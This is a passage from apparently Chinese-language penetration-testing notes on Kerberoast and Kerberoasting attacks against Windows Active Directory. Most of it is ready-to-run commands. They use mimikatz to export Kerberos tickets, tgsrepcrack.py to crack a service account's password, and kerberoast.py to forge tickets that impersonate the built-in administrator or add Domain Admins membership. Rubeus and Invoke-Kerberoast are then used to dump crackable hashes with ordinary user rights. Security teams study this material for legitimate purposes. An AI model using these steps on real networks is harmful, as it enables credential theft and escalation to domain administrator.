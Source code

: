 使用 klist 命令查看当前会话存储的 Kerberos 票据：
```bash
klist
```

使用 mimikatz 导出内存中的票据(mimikatz 无需提权)：
```bash
kerberos::list /export
```

**破解**

使用 https://github.com/nidem/kerberoast 工具破解，得到 sqlsrv 密码为 Admin12345：
```bash
python tgsrepcrack.py dict.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi
```

Kerberos 的票据是使用 NTLM Hash 进行签名，上述已经破解密码，就可以使用 Kerberoast 脚本重写票据，这样就可以假冒任何域用户或者虚假的账户，也可以将用户提升到域管中：
```bash
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -u 500
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -g 512
```

```bash
kerberos::ptt test.kirbi
```
攻击者知道一台服务器(或多台服务器)的服务账户和密码，就可以通过此方法将其域用户权限提升到域管。

---

### Kerberoasting

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoasting)]</sup>

kerberoast 攻击，利用 mimikatz 从内存中导出票据破解。而 Kerberoasting 攻击可以不使用 mimikatz，且普通用户权限就可以实现。

**导出**
- **Rubeus**
    - https://github.com/GhostPack/Rubeus
        ```
        Rubeus.exe kerberoast
        ```

- **Invoke-Kerberoast**

    也可以在域内一台主机上导入 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ，以普通用户权限执行：
    ```powershell
    Import-Module .\Invoke-Kerberoast.ps1
    Invoke-Kerberoast -Outputformat Hashcat | fl > test1.txt
    ```

    只提取出 hash 的命令：
    ```powershell
    Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
    ```
